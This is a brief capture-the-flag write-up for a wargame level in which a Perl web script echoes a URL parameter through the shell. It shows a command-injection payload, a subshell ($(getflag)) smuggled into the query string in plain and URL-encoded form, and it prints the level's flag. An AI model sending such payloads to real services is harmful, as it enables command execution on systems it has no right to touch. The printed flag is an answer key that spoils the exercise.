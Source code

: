# Level 04

We got a perl script that takes the argument of the url and echoes it using echo

We can exploit that by executing a subshell in the echo

```
curl "localhost:4747?x=$(getflag)"
```

This is a url so we have to encode the invalid characters

```
curl "localhost:4747?x=%24%28getflag%29"
```

**Flag:** ne2searoevaevoem4ov4ar8ap
